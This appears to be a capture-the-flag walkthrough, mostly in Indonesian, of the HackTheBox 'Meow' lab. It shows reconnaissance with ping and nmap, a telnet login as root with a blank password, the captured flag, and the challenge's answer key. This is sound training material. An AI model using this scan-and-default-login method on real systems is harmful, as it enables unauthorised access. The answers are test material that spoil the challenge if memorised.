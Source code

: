 # HackTheBox - Starting Point Walkthrough
Created By [Badzlan Nur Dhabith](https://www.linkedin.com/in/badzlannurdhabith/)

## Challenge : Meow
### Steps and Solutions
Pertama lakukan pengecekan apakah sudah ada tunnel ip target, dengan command :
```
ifconfig
```
```
┌──(root㉿localhost)-[~]
└─# ifconfig                                    
...
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.56  netmask 255.255.254.0  destination 10.10.14.56
        inet6 dead:beef:2::1036  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::8e5c:baa2:365b:2370  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
jika sudah ada tun0 berarti kita sudah connect dengan target dengan openvpn

------------------------------------------------------------------------------------------------------

Lalu, cek apakah kita dan target sudah terhubung, dengan command :
```
ping [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# ping 10.129.49.229
PING 10.129.49.229 (10.129.49.229) 56(84) bytes of data.
64 bytes from 10.129.49.229: icmp_seq=1 ttl=63 time=253 ms
64 bytes from 10.129.49.229: icmp_seq=3 ttl=63 time=268 ms
64 bytes from 10.129.49.229: icmp_seq=4 ttl=63 time=257 ms
64 bytes from 10.129.49.229: icmp_seq=5 ttl=63 time=255 ms
--- 10.129.49.229 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4021ms
rtt min/avg/max/mdev = 253.414/258.182/267.999/5.776 ms
```

------------------------------------------------------------------------------------------------------

Selanjutnya, lakukan scanning port target untuk melihat port dan service yang open, dengan command :
```
nmap -sV [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# nmap -sV 10.129.49.229        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 23:10 EDT
Nmap scan report for 10.129.49.229
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```
dari hasil scanning terlihat bahwa port yang open adalah port 23 dengan service telnet

------------------------------------------------------------------------------------------------------

Kemudian, kita coba telnet target untuk melihat file dan direktori target menggunakan command :
```
telnet [ip target]
```
login sebagai root agar bisa masuk tanpa password
```
┌──(root㉿localhost)-[~]
└─# telnet 10.129.49.229                                                                                         
Trying 10.129.49.229...
Connected to 10.129.49.229.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 02 Sep 2022 03:22:51 AM UTC

  System load:           0.08
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             141
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.229
  IPv6 address for eth0: dead:beef::250:56ff:feb9:98fc

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```

------------------------------------------------------------------------------------------------------

Selanjutnya, kita coba lihat list file dan direktori target dengan command :
```
ls
```
```
root@Meow:~# ls
flag.txt  snap
```
ternyata ada file bernama flag.txt

------------------------------------------------------------------------------------------------------

Lalu open file tersebut dengan command :
```
cat [nama file]
```
```
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

------------------------------------------------------------------------------------------------------

### Walkthrough
#### Task 1
What does the acronym VM stand for?
##### Answer : ''' Virtual Machine '''

#### Task 2
What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
##### Answer : Terminal

#### Task 3
What service do we use to form our VPN connection into HTB labs?
##### Answer : OpenVPN

#### Task 4
What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
##### Answer : tun

#### Task 5
What tool do we use to test our connection to the target with an ICMP echo request?
##### Answer : ping

#### Task 6
What is the name of the most common tool for finding open ports on a target?
##### Answer : nmap

#### Task 7
What service do we identify on port 23/tcp during our scans?
##### Answer : telnet

#### Task 8
What username is able to log into the target over telnet with a blank password?
##### Answer : root

#### Submit Flag
Submit root flag
##### Answer : b40abdfe23665f766f9c61ecba8a4c19
